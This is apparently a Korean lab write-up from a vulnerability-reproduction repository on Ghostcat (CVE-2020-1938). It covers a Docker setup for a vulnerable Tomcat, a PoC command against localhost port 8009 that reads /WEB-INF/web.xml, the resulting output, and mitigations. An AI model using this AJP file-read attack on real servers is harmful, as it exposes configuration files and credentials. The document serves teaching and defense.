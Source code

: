 # CVE-2020-1938 - Ghostcat (Apache Tomcat AJP File Read Vulnerability)

## 개요

**CVE-2020-1938**, 일명 **Ghostcat**은 Apache Tomcat의 AJP 커넥터(AJP/1.3 프로토콜)를 악용해 인증 없이 Tomcat 내부의 민감 파일을 읽을 수 있는 취약점입니다.  
AJP 포트가 외부에 노출되어 있는 경우, 공격자는 `/WEB-INF/web.xml` 등 서버 내부 파일을 열람할 수 있습니다.

- **취약점 ID:** CVE-2020-1938  
- **공개일:** 2020-02-20  
- **영향 받는 버전:** Apache Tomcat 6.x ~ 9.0.30  
- **취약점 유형:** 정보 유출 (Information Disclosure)  
- **PoC 가능 여부:** 가능 (Docker 환경 구성 완료)

---

## 환경 구성 방법

### 1. 실행 환경 (Docker)

```bash
git clone https://github.com/kimyeeun21/kr-vulhub.git
cd kr-vulhub/CVE-2020-1938
docker compose up -d
```

- 브라우저에서 `http://localhost:8080` 접속 → Tomcat 정상 구동 확인
- 컨테이너는 포트 8080(HTTP), 8009(AJP)을 엽니다

---

## PoC 실행 방법

### 1. 사전 준비

- Python 3.12.9 설치

### 2. 공격 명령어

```bash
python poc.py 127.0.0.1 -p 8009 -f /WEB-INF/web.xml
```

### 3. PoC 성공 결과

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         version="4.0" metadata-complete="true">
  <display-name>Welcome to Tomcat</display-name>
  <description>Welcome to Tomcat</description>
</web-app>
```

> Tomcat의 내부 설정 파일(web.xml)을 성공적으로 열람할 수 있었습니다.

---

## PoC 환경 구성 파일

### docker-compose.yml

```yaml
version: '2'
services:
  tomcat:
    image: tomcat:9.0.30
    ports:
      - "8080:8080"
      - "8009:8009"
```

### Dockerfile

```dockerfile
FROM tomcat:9.0.30
```

### poc.py

- Vulhub의 [PoC 코드](https://github.com/vulhub/vulhub/blob/master/tomcat/CVE-2020-1938/poc.py)를 사용
- Python 3.11 이상 호환을 위해 `bufsize` 제거, `bytes.decode()`로 출력 처리

---

## 대응 방안

| 조치              | 설명                                                    |
|-------------------|---------------------------------------------------------|
| AJP 비활성화   | `server.xml`에서 AJP 커넥터 제거 또는 주석 처리        |
| 방화벽 설정    | 8009 포트를 외부에서 접근하지 못하도록 방화벽 차단     |
| ⬆버전 업그레이드 | Apache Tomcat을 9.0.31 이상으로 업그레이드              |

### `server.xml` 예시 (AJP 주석 처리)

Tomcat 설정 파일인 `server.xml`에서 AJP 포트를 주석 처리하면 외부에서 해당 포트 접근이 차단됩니다.

```xml
<!--
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
-->
---

## 📎 참고 자료

- [CVE-2020-1938 (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)
- [Tenable - Ghostcat 상세 분석](https://www.tenable.com/blog/ghostcat-vulnerability-discovered-in-apache-tomcat-cve-2020-1938)
- [Vulhub - CVE 환경](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2020-1938)

---

## ✅ PoC 결과 캡처

![PoC 실행 결과](./xml_result.png")

---

## 🔗 제출 정보

- **GitHub Repo:** https://github.com/kimyeeun21/kr-vulhub 
- **Pull Request:** [PR 생성 후 링크 입력]

